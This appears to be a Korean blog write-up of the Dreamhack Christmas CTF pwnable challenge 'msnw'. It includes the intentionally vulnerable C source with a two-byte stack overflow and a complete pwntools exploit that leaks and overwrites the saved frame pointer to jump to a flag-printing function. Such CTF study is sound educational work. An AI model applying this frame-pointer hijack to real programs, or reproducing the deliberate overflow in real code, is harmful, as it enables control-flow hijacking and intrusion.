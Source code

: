 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN msnw"
excerpt: "드림핵 포너블 msnw 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-02-07 15:30
---
```


드림핵 크리스마스 CTF에 출제된 포너블 문제다. 전체적인 환경에 대한 정보는 따로 주어지지 않았고, 바이너리, 소스코드, 더미 플레그가 제공되었다.

우선 먼저 코드를 살펴보자.

```c
/* msnw.c
 * gcc -no-pie -fno-stack-protector -mpreferred-stack-boundary=8 msnw.c -o msnw
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MEONG 0
#define NYANG 1

#define NOT_QUIT 1
#define QUIT 0

void Init() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int Meong() {
    char buf[0x40];

    memset(buf, 0x00, 0x130);

    printf("meong 🐶: ");
    read(0, buf, 0x132);

    if (buf[0] == 'q')
        return QUIT;
    return NOT_QUIT;
}

int Nyang() {
    char buf[0x40];

    printf("nyang 🐱: ");
    printf("%s", buf);

    return NOT_QUIT;
}

int Call(int animal) {
    return animal == MEONG ? Meong() : Nyang();
}

void Echo() {
    while (Call(MEONG)) Call(NYANG);
}

void Win() {
    execl("/bin/cat", "/bin/cat", "./flag", NULL);
}

int main(void) {
    Init();

    Echo();
    puts("nyang 🐱: goodbye!");

    return 0;
}
```

코드를 살펴보면 Meong() 함수에서 2바이트 오버플로우가 가능한 것을 알수 있다. 따라서 SFP 변조를 통해 코드의 실행 흐름일 바꿀 수 있을것 같다. Win 함수가 실행되면 flag가 출력되는것 같다.

우선 Meong() 함수에서 \n포함 0x130 길이의 문자열을 입력하면 이 값을 그대로  Nyang()함수에서 사용하기 때문에 printf를 통해 SFP 하위 2자리 값을 얻을 수 있다.

버퍼의 크기는 0x130이고 이를 0x10으로 나누면 13이니 버퍼에 Win 함수 값으로 덮어버렸다. 그렇게 되면 그냥 버퍼에 존재하는 값만 잘 맞춰서 sfp를 조작하면 Win함수로 갈수 있다. 우선 SFP 값을 릭해서 나온 값으로 gdb를 통해 buf 문자열이 포함되는 위치를 찾는다. 버퍼에는 Win 함수 주소값이 연속적으로 들어있어 어느 직점을 찍던 맨 뒷자리가 0 아님 8로 끝나면 코드는 성공한다. 나는 buf의 맨 처음 지점을 계산해 -8을 계산해 sfp를 오버라이트 했다. sfp 공격은 공격자가 입력한 값 +8 의 위치한 코드를 실행하기 때문에 이런 점만 맞춰주면 Win 함수를 실행할 수 있다. (32비트는 +4한 부분을 실행한다. 메모리 사이즈에 따라 64비트는 8, 32비트는 4 만큼의 차이가 있다.)


```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 17108);
c = process("./msnw")
#libc = ELF("./libc.so.6")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

execFlag = 0x40135b
payload = p64(execFlag)
while(len(payload)!=0x130):
    payload = payload+p64(execFlag)

c.recvuntil("meong 🐶: ")
pause()
c.sendline("a"*0x12f)

#print(payload)

c.recvuntil(b"\n")
leak1 = c.recv(2)
leak2 = leak1+b"\x00\x00\x00\x00\x00\x00"
print("leak : "+str(hex(u64(leak2))))
print("leak : "+str(leak2))
c.recvuntil(": ")

leak = int(hex(u64(leak2)), 16)-0x200-0x130
print(hex(leak))

#payload += b"a"*(0x130-len(p64(execFlag)))
#rsp 0x7fffffffde00
payload = payload + p64(leak-0x8)[:-6]
print(payload)
c.sendline(payload)
pause()
print(c.recvall())
```